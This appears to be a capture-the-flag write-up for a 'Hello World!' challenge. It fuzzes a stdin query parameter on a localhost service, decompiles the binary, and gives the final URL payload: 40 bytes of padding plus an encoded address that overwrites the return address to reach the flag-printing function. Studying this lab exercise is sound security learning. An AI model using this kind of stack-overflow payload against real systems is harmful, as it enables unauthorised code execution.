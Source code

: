 # Hello World! - FLAG0

## 0x00 Index

The home page is looks like the following.

![](./imgs/home.jpg)

And it will print out hello xyz when you send whatever via a get request.

[http://127.0.0.1/xxxxxxxxxx/?stdin=world][1]

![](./imgs/test.jpg)

[http://127.0.0.1/xxxxxxxxxx/?stdin=0123456789012345678901234567890123456789][3]

When make the std in 40 bytes long, some wried paddings are showing up.

![](./imgs/padding.jpg)

[http://127.0.0.1/xxxxxxxxxx/?stdin=01234567890123456789012345678901234567890][4]

When add one more byte, the program crushed and showed core dump.

![](./imgs/dump.jpg)

## 0x01 Decompile

It also has a [binary file](./vulnerable) availavle to download and analysis.

The binary file starts with something **ELF**. So may need to decompile it to take a look.

[snowman][2] is a pretty good decomplier for C/C++. Here I got the source [vulnerable.c](./vulnerable.c) here.

There is an important function just before pringing out the **FLAGS**.

```c
void print_flags() {
    int64_t rax1;
    int64_t rsi2;
    int64_t rdx3;
    void* rbp4;
    uint32_t eax5;
    unsigned char v6;
    int64_t rbp7;

    rax1 = fun_400550("FLAGS");
    fun_400560(rax1, rsi2, rdx3);
    fun_4005a0(0);
    rbp4 = reinterpret_cast<void*>(reinterpret_cast<int64_t>(__zero_stack_offset()) - 8 - 8 + 8 - 8 + 8 - 8 + 8 - 8);
    fun_400580(reinterpret_cast<int64_t>(rbp4) - 32, 0, 32);
    read_all_stdin(reinterpret_cast<int64_t>(rbp4) - 32, 0, 32);
    eax5 = v6;
    if (*reinterpret_cast<signed char*>(&eax5)) {
        fun_400570("Hello %s!\n", reinterpret_cast<int64_t>(rbp4) - 32, 32);
    } else {
        fun_400560("What is your name?", 0, 32);
    }
    goto rbp7;
}
```

So we need add up the padding to it goto print the **FLAGS** at 0406ee

[http://127.0.0.1/xxxxxxxxxx/?stdin=0123456789012345678901234567890123456789%ee%06%40%00%00%00%00%00][5]

And here we get the flag.

![](./flag.jpg)


[1]: http://127.0.0.1/xxxxxxxxxx/?stdin=world
[2]: https://github.com/yegord/snowman
[3]: http://127.0.0.1/xxxxxxxxxx/?stdin=0123456789012345678901234567890123456789
[4]: http://127.0.0.1/xxxxxxxxxx/?stdin=01234567890123456789012345678901234567890
[5]: http://127.0.0.1/xxxxxxxxxx/?stdin=0123456789012345678901234567890123456789%ee%06%40%00%00%00%00%00
